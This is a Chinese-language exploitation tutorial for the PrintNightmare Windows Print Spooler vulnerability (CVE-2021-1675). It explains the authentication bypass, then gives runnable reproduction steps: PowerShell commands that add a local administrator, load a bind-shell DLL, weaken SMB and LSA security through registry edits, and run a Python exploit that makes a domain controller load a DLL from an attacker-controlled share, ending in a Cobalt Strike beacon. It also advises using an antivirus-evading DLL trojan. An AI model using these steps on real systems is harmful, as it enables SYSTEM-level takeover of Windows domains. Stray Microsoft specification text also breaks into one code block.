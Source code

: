 ```yaml
---
sort: 2
---
```


# PrintNightmare (CVE-2021-1675)

## 漏洞简介

CVE-2021-1675 是一个使用 Windows Print Spooler 实现的 RCE 和 LPE 漏洞. 该漏洞利用了`RpcAddPrinterDriver`方法, 该方法的功能为在打印服务器上安装驱动程序并链接配置、数据和打印机程序，但是其身份认证功能可绕过，并且可以通过备份驱动的方式，让`RpcAddPrinterDriver`方法加载恶意的 DLL 程序。

假设现在我们需要向打印服务器(`CORPSERV`)添加一个驱动程序(`OEM Printer Driver`), 那么客户端(`TESTCLT`)就需要执行如下步骤:

1. client 使用 RPC 调用`RpcAddPrinterDriver`方法, 向打印服务器添加一项驱动程序.
2. client 需要确保这项打印驱动程序是在打印服务器可访问的一个位置上. 例如 client 可以使用 SMB 协议分享打印机驱动程序所在目录, 以确保打印服务器可以访问到该驱动程序.
3. 然后 client 申请一个`DRIVER_INFO_2`结构体, 并添加如下数据:

```cpp
pName = L"OEM Printer Driver";
pEnvironment = L"Windows NT x86"; /* 驱动程序的编译环境 */
pDriverPath = "\\CORPSERV\C$\DRIVERSTAGING\OEMDRV.DLL";315 / 415
[MS-RPRN] - v20200826
Print System Remote Protocol
Copyright © 2020 Microsoft Corporation
Release: August 26, 2020
pDataFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMDATA.DLL";
pConfigFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMUI.DLL";
```

4. client 申请一个`DRIVER_CONTAINER`结构体`driverContainer`, 并且使用`DRIVER_INFO_2`结构体初始它.
5. client 调用`RpcAddPrinterDriver`方法:

```
RpcAddPrinterDriver( L"\\CORPSERV", &driverContainer );
```

## CVE-2021-1675 分析

显然, 如果一个攻击者可以绕过`RpcAddPrinterDriver`的身份验证, 那么他就能在打印服务器中安装一个恶意的驱动程序. 在 MSDN 中, client 需要使用`SeLoadDriverPrivilege`来调用 RPC 服务. 然而这里是可以绕过的. 我们来看一看这里的身份认证逻辑:
![](vx_images/1015328100753.png)

`ValidateObjectAccess`是一个 Print Spooler 的安全性检查函数. 但是在第 19 行和 20 行, a4 参数是用户可控制, 所以一个普通用户能够绕过`ValidateObjectAccess`的安全性坚持, 从而连接 DC 服务器上的 Spooler 服务, 并且向 DC 服务器中安装打印机驱动程序. 如此一来, 攻击者就能控制整个域网络.

## Exploit

但是实际利用却不那么容易, 为了利用身份认证绕过的 bug, 我们需要理解当你调用`RpcAddPrinterDriver`方法时, Spooler service 会做些什么. 现在假设你已经提供了以下 Spooler service 路径:

```
​ pDataFile =A.dll // A

​ pConfigFile =\attackerip\Evil.dll // B

​ pDriverPath=C.dll  // C
```

Spooler service 将会把 A, B, C 复制到`C:\Windows\System32\spool\drivers\x64\3\new`文件夹下, 然后再将其复制到`C:\Windows\System32\spool\drivers\x64\3\`, 然后向 Spooler service 加载`C:\Windows\System32\spool\drivers\x64\3\A.dll`和`C:\Windows\System32\spool\drivers\x64\3\C.dll`, Spooler service 将对 A.dll 和 C.dll 进行检查, 以确保其不是一个远端访问地址(UNC path), 但是 B.dll 却可以是一个 UNC path. 因此我们可以吧`pConfigFile`设置为一个 UNC path(恶意的 dll 程序), 这样一来我们的恶意 dll 程序 evil.dll 将会被复制到`C:\Windows\System32\spool\drivers\x64\3\evil.dll`中, 然后再调用一次`RpcAddPrinterDriver`, 让`pDataFile`为`C:\Windows\System32\spool\drivers\x64\3\evil.dll`, 此时 Spoole service 将会调用`pDataFile`, 即我们的恶意 dll 文件. 但在此之前我们还需要解决一个问题.

当我们第二次调用`RpcAddPrinterDriver`时, 我们将`pDataFile`设为了`C:\Windows\System32\spool\drivers\x64\3\evil.dll`, 此时`RpcAddPrinterDriver`会将`C:\Windows\System32\spool\drivers\x64\3\evil.dll`复制到`C:\Windows\System32\spool\drivers\x64\3\`目录下, 但是这样一来会有访问冲突(因为文件重名了), 为了绕过这一问题, 我们需要使用驱动升级的备份特性. 如果我们升级某一驱动, 那么旧版本的驱动将会备份在`C:\Windows\System32\spool\drivers\x64\3\old\1\`文件夹下, 这样一来就避免了访问冲突.

Spooler service 是以 SYSTEM 权限运行的, 如果 evil.dll 是一个 cs 的后门, 那么我们可以直接获取到 DC 服务器的 SYSTEM 权限.

## 影响范围

CVE-2021-1675 可以用于 LPE 和 RCE. 当使用 RCE 时, 我们需要一个已在 Spooler service 认证过的用户权限, 在域环境下这是致命的, 几乎所有的域成员都拥有此权限. 因为通常情况下 DC 服务器都会开启 Spooler service, 一个失陷的域成员用户就可以使用此漏洞获取 DC 服务器权限.

## 复现

### LPE

我们使用[https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)来复现, LPE 不需要与 DC 服务器交互, 该 exp 可以在当前计算机内添加一个 administrators 组的用户. 当然我们可以在本地加载任意的恶意 dll 文件, 反正 Spooler service 是以 SYSTEM 权限运行的.

环境:
![拓扑图](vx_images/3838712117046.png)

#### 食用方法:

1. 本地提权

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # 默认不带参数, 添加管理员用户adm1n, 密码P@ssw0rd

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

2. 加载其他 dll

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

```

#### 效果

![](vx_images/1552216120753.png)

![](vx_images/3197317139179.png)

### RCE

这里我们使用[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)提供的 exp.
首先我们需要域内任意一个成员的权限, 假设我们获取 win7test 这个用户的权限, 利用此漏洞的提权我们成功将权限提升的本地管理员(并非域管), 利用本地管理员权限我们设置 c:\share 目录为 smb 匿名访问目录:
Windows:

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

Linux 编辑`/etc/samba/smb.conf`文件:

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

准备一个免杀的 dll 木马放到 win7test 的 c:\share 目录下, 否则 dll 马过不了 Defender.:
![](vx_images/3966525127046.png)

在 kali 中运行:

```
python3 CVE-2021-1675.py gong.com/win2016test:Password@192.168.247.135 '\\192.168.247.132\share\spooler.dll'
```

![](vx_images/3948627147212.png)

cs 上线:
![](vx_images/1733528139881.png)

